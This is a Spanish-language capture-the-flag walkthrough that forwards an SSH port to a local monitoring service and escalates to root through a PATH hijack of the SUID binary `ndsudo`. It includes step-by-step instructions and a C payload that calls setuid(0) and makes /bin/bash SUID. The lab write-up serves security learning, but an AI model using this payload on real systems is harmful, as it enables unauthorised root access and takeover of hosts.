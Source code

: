 ```bash
curl 127.0.0.1:19999
```

<img width="1920" height="1005" alt="image" src="https://github.com/user-attachments/assets/9b95996d-b49b-45e6-9be4-bd379c15c088" />

parece ser un servicio web asi que vamos a redirigir un puerto de nuestra maquina atacante al puerto `19999` de la maquina remota

```bash
ssh -L 19999:127.0.0.1:19999 oliver@10.10.11.80
```
>>> Nuestro puerto local {19999} lo redirigimos hasta el puerto remoto {19999} en el localhost de la maquina remota 

💻 attack {Puerto 19999} ----- > 💻 remote {Puerto 19999}

Cuando nos conectemos a nuestro puerto local 19999 nos va a redireccionar hasta el servicio que corre en el host remoto por el puerto 19999 en el localhost

<img width="1920" height="1054" alt="image" src="https://github.com/user-attachments/assets/f8be583b-e2ef-4c1a-b2a1-7c8d3710635a" />

de entrada ya vemos una advertencia para actualizar el software por lo que buscamos la version actual

<img width="1920" height="1054" alt="image" src="https://github.com/user-attachments/assets/3c19a474-25b1-472d-8647-5898dd473186" />

localizada la version investigamos posibles vulnerabilidades

<img width="1920" height="1009" alt="image" src="https://github.com/user-attachments/assets/c6141f47-5bb0-46d6-9587-eaeba34638f4" />

conseguimos una POC, la cual nos indica que el binario `ndsudo` fue empaquetado con el bit suid activo, es decir, se ejecuta como el dueno del binario y no como el usuario que lo ejecuta y otro detalle que se menciona es
que solo ejecuta un conjunto restringido de comandos externos, pero sus rutas de búsqueda las proporciona el `PATH`, por lo que aqui tenemos la escalada a root, pasos:

1) crear un binario que ejecute un comando malicioso que nos permita escalar, pero que establezca el suid a 0
2) Modificar el PATH a un directorio controlado por nosotros
3) mover el binario malicioso a donde apunta el PATH y cambiar su nombre por un binario que ejecute la herramienta `ndsudo`
4) ejecutar `ndsudo`


>>> Binario malicioso
```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    if (setuid(0) != 0) {
        perror("Error al establecer UID=0 (root)");
        return 1;
    }

    system("chmod u+s /bin/bash");

    return 0;
}
```
